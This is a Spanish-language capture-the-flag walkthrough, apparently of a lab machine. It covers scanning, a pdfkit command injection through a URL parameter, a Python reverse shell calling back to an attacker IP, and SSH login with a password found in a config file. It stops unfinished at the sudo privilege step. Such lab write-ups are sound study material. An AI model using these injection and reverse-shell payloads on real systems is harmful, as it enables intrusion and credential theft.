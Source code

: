 # 

## Ping

- `ttl=63`
Entendemos que es linux

## Nmap
- `22/tcp ssh`
- `80/tcp http`

# Web
No nos arroja nada interesante a primera vista.
![[Pasted image 20230227112540.png]]

Pero parece ser que se nos permite Descargar una web en pdf. Por lo que probaremos a poner nuestra máquina atacante a 'escuchar' con:
`python3 -m http.server 80`


![[Pasted image 20230227112522.png]]

Nos arroja nuestra carpeta actual en PDF. Lo descargamos para analizar el archivo con `exiftool`
![[Pasted image 20230227112455.png]]

Vemos que está realizado con `pdfkit v0.8.6` . Realizamos una busqueda para ver si existe alguna vulnerabilidad:

Existe y nos dice lo siguiente:

PoC:
An application could be vulnerable if it tries to render a URL that contains query string parameters with user input:
```ruby
PDFKit.new("http://example.com/?name=#{params[:name]}").to_pdf
````

Probamos a meterle el parametro de `id` directamente en la barra de creación de pdf:

-``http://10.10.11.189/?name=%20`id`

![[Pasted image 20230227113235.png]]

Nos arroja su nombre, 'ruby'.

De esta manera, podemos ver que podremos injectar código, así que meteremos una rev shell, y escucharemos del otro lado 

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.XX.XX",9001));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty;
pty.spawn("sh")'
```

Una vez enviada la rev shell, ejecutamos en ncat en el puerto que hemos indicado:
![[Pasted image 20230227140622.png]]

Vamos investigando por las carpetas y nos metemos en la carpeta `home` de ruby. Descubriendo el archivo config
![[Pasted image 20230227140848.png]]
A partir de aqui, no tenemos mucha idea, solo sabemos que henry tiene un user y que posblemente podamos acceder através de ssh para ir escalando. La contraseña en principio será la que nos ha arrojado el fichero config.
![[Pasted image 20230227141059.png]]
Una vez tengamos el control del usuario, usamos `sudo -l` para ver los privilegios del user `henry` 

![[Pasted image 20230227141316.png]]

![[Pasted image 20230227141908.png]]	
Sabemos que archivos pueden 

![[Pasted image 20230227142246.png]]